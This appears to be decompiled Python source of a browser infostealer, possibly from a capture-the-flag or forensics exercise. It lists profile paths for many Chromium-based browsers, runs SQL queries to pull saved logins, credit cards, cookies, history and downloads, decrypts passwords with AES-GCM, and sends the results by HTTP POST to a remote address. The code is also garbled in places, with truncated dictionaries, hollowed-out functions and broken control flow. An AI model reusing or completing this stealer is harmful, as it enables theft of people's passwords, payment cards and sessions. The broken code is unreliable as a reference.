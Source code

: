 ```python=
from datetime import datetime, timedelta
from Crypto.Cipher import AES
from win32crypt import CryptUnprotectData
appdata = os.getenv('LOCALAPPDATA')
roaming = os.getenv('APPDATA')
browsers = {'avast': appdata + '\\AVAST Software\\Browser\\User Data', 'amigo': appdata + '\\Amigo\\User Data', 'torch': appdata + '\\Torch\\User Data', 'kometa': appdata + '\\Kometa\\User Data', 'orbitum': appdata + '\\Orbitum\\User Data', 'cent-browser': appdata + '\\CentBrowser\\User Data', '7star': appdata + '\\7Star\\7Star\\User Data', 'sputnik': appdata + '\\Sputnik\\Sputnik\\User Data', 'vivaldi': appdata + '\\Vivaldi\\User Data', 'chromium': appdata + '\\Chromium\\User Data', 'chrome-canary': appdata + '\\Google\\Chrome SxS\\User Data', 'chrome': appdata + '\\Google\\Chrome\\User Data', 'epic-privacy-browser': appdata + '\\Epic Privacy Browser\\User Data', 'msedge-dev': appdata + '\\Microsoft\\Edge Dev\\User Data', '\\uCozMedia\\Uran\\User Data': appdata + '\\Yandex\\YandexBrowser\\User Data', '\\BraveSoftware\\Brave-Browser\\User Data': appdata + '\\Iridium\\User Data', '\\CocCoc\\Browser\\User Data': roaming + '\\Opera Software\\Opera Stable', '\\Opera Software\\Opera GX Stable': roaming + '\\Opera Software\\Opera GX Stable'}
data_queries = {'login_data': {'query': 'SELECT action_url, username_value, password_value FROM logins', 'file': '\\Login Data', 'columns': ['URL', 'Email', 'Password'], 'decrypt': True}, 'credit_cards': {'query': 'SELECT name_on_card, expiration_month, expiration_year, card_number_encrypted, date_modified FROM credit_cards', 'file': '\\Web Data', 'columns': ['Name On Card', 'Card Number', 'Expires On', 'Added On'], 'decrypt': True}, 'cookies': {'query': 'SELECT host_key, name, path, encrypted_value, expires_utc FROM cookies', 'file': '\\Network\\Cookies', 'columns': ['Host Key', 'Cookie Name', 'Path', 'Cookie', 'Expires On'], 'decrypt': True}, 'history': {'query': 'SELECT url, title, last_visit_time FROM urls', 'file': '\\History', 'columns': ['URL', 'Title', 'Visited Time'], 'decrypt': False}, 'downloads': {'query': 'SELECT tab_url, target_path FROM downloads'

def get_master_key(path: str):
    if not os.path.exists(path):
        pass  # postinserted
    return None

def decrypt_password(buff: bytes, key: bytes) -> str:
    iv = buff[3:15]
    payload = buff[15:(-16)]
    cipher = AES.new(key, AES.MODE_GCM, iv)
    decrypted_pass = cipher.decrypt(payload)
    decrypted_pass = decrypted_pass.decode()
    return decrypted_pass

def save_results(browser_name, type_of_data, content):
    if content:
        url = 'http://10.10.70.114:443'
        data = {'browser': browser_name, 'type': type_of_data, 'content': content}
        try:
            response = requests.post(url, json=data)
            if response.status_code == 200:
                print(f'\t [*] Data sent successfully for {browser_name}/{type_of_data}')
            return None
    else:  # inserted
        return None
    except Exception as e:
        print(f'\t [-] Error sending data: {e}')
        return None

def decrypt_my_data(encrypted_file):
    with open('encrypted.bin', 'rb') as f:
        content = f.read()
    iv = '1234567891011123'
    encrypted_data = '6b4781995cf5e4e02c2625b3d1ac6389dbaf68fb5649a3c24ede19465f470412'
    key = CryptUnprotectData(content, None, None, None, 0)[1]
    key = bytes.fromhex(key)
    cipher = AES.new(key, AES.MODE_CBC, iv)
    data = cipher.decrypt(encrypted_data)
```